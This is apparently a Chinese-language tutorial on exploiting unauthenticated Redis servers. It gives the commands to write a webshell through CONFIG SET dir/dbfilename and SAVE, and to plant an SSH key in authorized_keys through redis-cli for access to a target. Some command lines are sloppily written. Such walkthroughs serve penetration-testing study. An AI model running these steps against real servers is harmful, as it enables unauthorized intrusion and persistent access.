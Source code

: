 # REDIS 未授权   
这个其实是一个老生常谈的问题了  
不管在那个地方的内网一扫绝对一大把这个漏洞  
本质原因是**redis默认配置就是未授权的**  
## 利用    
redis未授权的利用核心要素是利用未授权往redis服务器当中写入文件数据  
举例子  
![20211026214147](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026214147.png)  
### 写入webshell  
登录远程的服务器并且检测连接是否是畅通的  config get *查看其中的配置项    
![20211026214244](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026214244.png)  

```
利用config set   
config set dir directory #设置写入的目录  
config set dbfilename a.php # 设置写入的文件名称  
set xxx (数据)  save 进行保存    
```
![20211026214119](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026214119.png)  

#### 注意
1.前提是在靶机的redis服务器必须有在某个目录写入文件的权利  
2.写入的文件当中存在很多的其他的padding字符，只能适用于容错性比较高的结果  



### 写入sshkey进行提权    
本质还是写入文件进行存储 但是要将本地文件当中存在的数据放上去不能光是使用赋值的方法   
#### echo -e 
因为文件比较大的原因需要使用  
echo – e 将输出的命令进行转义 echo -e “\n\n” 意思就是打印换行符  
```

(echo -e; “\n\n” cat /.ssh/authorized_keys;echo -e;)  > a.txt    #将命令执行的结果输出到一个文件当中 
```
注意 echo -e 的转义功能，这里输出\n的目的也是为了让该文件离padding远一点的原因吧   加上双括号的意思是为了让所有的输出都能够保存到文件当中  
经过这样处理的结果会变为这样  
  ![20211026214432](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026214432.png)  
  然后我们将这个文件当中的内容通过redis放到靶机的某个文件当中   
```  
在linux当中将某个文件当中的内容放到redis的命令  
cat file_name | redis-cli -h ip -x set kk  
然后登陆远程的主机设置好库和文件就行了  
CONFIG SET dir /home/user/.ssh 
CONFIG SET dbfilename authorized_keys save  
```  
![20211026214652](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026214652.png)